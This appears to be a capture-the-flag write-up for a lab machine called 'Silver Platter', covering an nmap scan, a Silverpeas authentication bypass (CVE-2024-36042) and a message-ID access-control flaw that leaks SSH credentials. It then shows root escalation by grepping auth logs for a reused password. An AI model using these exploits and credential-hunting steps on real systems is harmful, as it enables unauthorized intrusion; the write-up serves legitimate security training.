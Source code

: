 # Silver Platter



## Ports Scan

```bash
nmap -T4 -A -p 22,80,8080 --min-rate 1000 10.10.49.42 -oN port_scan.txt -Pn

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3b:f4:48:e3:17:b8:3a:33:32:cb:b6:79:82:96:07:aa (ECDSA)
|_  256 3b:1f:a3:fe:0b:2c:79:9a:58:98:66:e6:cf:81:aa:72 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:20 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:19 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
```



## Web Enumeration

In the web site contact page we found this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Probably other HTTP port 8080 is a Silverpeas server.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Searching on internet we can get that the default port might be the `8080` and the default route is `/silverpeas`.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2024-36042 - Silverpeas Auth Bypass

Looking the years in the bottom of the page i can image that the software is not updated.

And... searching on web we have found a Authentication Bypass vulnerability

{% embed url="https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d" %}

I tried to replicate this PoC and tata...

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2023-47323 - SilverPeas Broken Access Control

The version of the service is the 6.3.1

We can search on the web the version to find vulnerabilities

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The CVE-2023-47322 looks interesting, it should allow us to read all message of all users.

{% embed url="https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323" %}

```
http://10.10.206.103:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=1
```

Change the ID with BurpSuite we can enumerate the messages. Taking a look to the message with ID 6, this message contains SSH credentials

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SSH credential
tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```



## Initial Access

SSh connection

```bash
ssh tim@10.10.206.103
> cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

First things first, let's go to print the user flag

```bash
cat /home/tim/user.txt
```



## Privilege Escalation

### "adm" group PrivEsc

```bash
id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

> Traditionally the `adm` group is used to give a user access to some sort of system log files.\
> See e.g. `ls -l /var/log`.

With the log files acces, we can grep possible cleat-text password

{% code overflow="wrap" %}
```bash
cat /var/log/auth* | grep -i --text "pass"

Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1

```
{% endcode %}

With this password we can try to do password spray with know users.

```bash
su tyler
> _Zd_zx7N823/
```

That's it, we have access as tyler.

```bash
sudo -l

User tyler may run the following commands on ip-10-10-142-94:
    (ALL : ALL) ALL
```

User tyler has all privilege, and with this user we can became root.

```bash
sudo su
```

Now that we are root, we can print the root flag.

```bash
cat /root/root.txt
```



